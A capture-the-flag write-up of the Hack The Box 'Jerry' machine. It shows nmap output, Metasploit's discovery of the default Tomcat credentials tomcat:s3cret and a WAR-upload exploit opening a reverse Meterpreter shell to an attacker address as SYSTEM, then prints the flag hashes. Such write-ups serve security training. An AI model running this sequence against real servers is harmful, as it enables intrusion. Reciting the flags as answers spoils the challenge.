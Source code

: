 # HTB: Jerry

**Operating System:** Windows  
**Difficulty:** Easy  
**Author:** mrh4sh  
**Date of Engagement:** 2025-07-30

---

## Engagement Overview

**Target IP:** 10.10.10.95 
**Local IP:** 10.10.16.9  
**Objective Summary:**
- Exploit Apache Tomcat
- Gain a `NT Authority\SYSTEM` shell
- Fully compromising the target

---

## Initial Reconnaissance

### Nmap Scan

```bash
nmap -sC -sV -A -o nmap.txt 10.10.10.95
```

**Result Summary:**
```
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
```

### Host Info

```
Microsoft Windows Server 2012 R2
```

---

## Methodologies

### Initial Access –

**Metasploit**
- Found credentials:
```
msf6 auxiliary(scanner/http/tomcat_mgr_login run
[+] 10.10.10.95:8080 - Login Successful: tomcat:s3cret
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

**Tools & Payloads Used:**
- Metasploit

**Penetration Result:**  
```
msf6 exploit(multi/http/tomcat_mgr_upload) > exploit
[*] Started reverse TCP handler on 10.10.16.9:4444 
[*] Retrieving session ID and CSRF token...
[*] Uploading and deploying bJKTyJ1deM...
[*] Executing bJKTyJ1deM...
[*] Sending stage (58073 bytes) to 10.10.10.95
[*] Undeploying bJKTyJ1deM ...
[*] Undeployed at /manager/html/undeploy
[*] Meterpreter session 1 opened (10.10.16.9:4444 -> 10.10.10.95:49192) at 2025-07-30 15:56:40 -0400

meterpreter > getuid
Server username: JERRY$
meterpreter > 
```

---

## Privilege Escalation

Not applicable. Initial exploit yielded SYSTEM-level shell.

```
meterpreter > shell
Process 1 created.
Channel 1 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system

C:\apache-tomcat-7.0.88>
```
---

## House Cleaning

- No post-exploitation persistence left on target
- Exploit did not require uploads beyond shell payload

---

## Post-Exploitation

### Credentials & Flags

- `user.txt`: `7004dbcef0f854e0fb401875f26ebd00`  
- `root.txt`: `b6b9cccdf6904e9ffdb0110122a50a43`

---

## Tools Utilized

* nmap
* metasploit

---

## Key Takeaways

* Enumerating Tomcat credentials via Metasploit
* Abusing Tomcat WAR uploads via Metasploit